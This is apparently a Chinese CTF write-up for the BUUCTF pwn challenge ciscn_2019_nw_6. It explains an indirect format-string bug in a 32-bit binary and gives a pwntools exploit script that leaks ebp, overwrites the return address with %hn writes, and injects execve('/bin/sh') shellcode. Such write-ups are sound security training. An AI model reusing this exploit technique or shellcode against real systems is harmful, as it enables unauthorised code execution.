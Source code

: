 # ciscn_2019_nw_6（fmt+shellcode）

# 查看

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450069234-0c8fc4d7-5275-491c-95b6-71e323cffd33.png)

32位啥都没开，存在fmt漏洞，猜测不在栈上

# ida

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450160482-2eeba105-ac19-47ea-9a85-0ec00d8357c4.png)

输入到s1

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450174653-8a675956-63ed-473b-8dfe-108ef5a4c6da.png)

bss段上

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450286984-306dc28d-df62-40f1-8b09-945f5662a654.png)

拷贝到s，![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450299432-fe23fe44-175a-4046-9fb3-cf0ce46d569f.png)

间接的fmt漏洞

先leak基址，再将puts_got改成system，输入binsh即可

# gdb

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450506745-d2c00df8-6618-4275-a1d0-ac046f555ab7.png)

偏移为4、8处是第一、二条栈链

17处可以leak基址

偏移为7处地址与got较近

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1596450611993-6f82bd83-0bfa-4b83-9794-6e205aabc824.png)

除此之外，还能用shellcode做，先读入shellcode到bss段，之后修改ret跳过去就可以了

# 脚本

[https://196011564.github.io/2019/07/13/CTF-BUUCTF-Pwn%E5%88%B7%E9%A2%98%E4%B9%8B%E6%97%85-(1)/#%E5%88%A9%E7%94%A8%E6%A0%88%E5%86%85%E4%B8%A4%E4%B8%AA%E6%A0%88%E7%A9%BA%E9%97%B4%E7%9A%84%E6%8C%87%E9%92%88%E6%9D%A5%E6%94%B9%E5%86%99ret%E5%9C%B0%E5%9D%80%EF%BC%8C%E7%84%B6%E5%90%8E%E9%A1%BA%E4%BE%BF%E6%9C%80%E5%90%8E%E5%86%99%E5%85%A5shellcode%E5%88%B0bss%EF%BC%8C%E7%84%B6%E5%90%8Eret%E8%B7%B3%E8%BF%87%E5%8E%BB](https://196011564.github.io/2019/07/13/CTF-BUUCTF-Pwn刷题之旅-(1)/#利用栈内两个栈空间的指针来改写ret地址，然后顺便最后写入shellcode到bss，然后ret跳过去)

```
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'
context.arch = "i386"
my_u64 = lambda x: u64(x.ljust(8, '\0'))
#libc=ELF('libc-2.23.so')
a=0
if a==1:
    #p = process(['./stack2'],env={"LD_PRELOAD":"./libc-2.23.so"})
    p=process('stack2')
else:
    p=remote('node3.buuoj.cn',25520)    

#0804A160
#leak ebp
p.recv()
payload = "%12$p"
p.sendline(payload)
p.recvuntil("0x")
ebp = int(p.recv(8),16)
ret_addr = ebp + 0xc - 6*0x4
payload = "%." + str(ret_addr % 0x10000) + "d%23$hn"
p.sendline(payload)
sleep(0.2)
payload = "%." + str(0xA170) + "d%59$hn"
payload = payload.ljust(4*4,"\x00")
payload += b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
p.sendline(payload)
sleep(0.2)
p.sendline("hello")
log.success("ebp: " + hex(ebp))
p.interactive()
```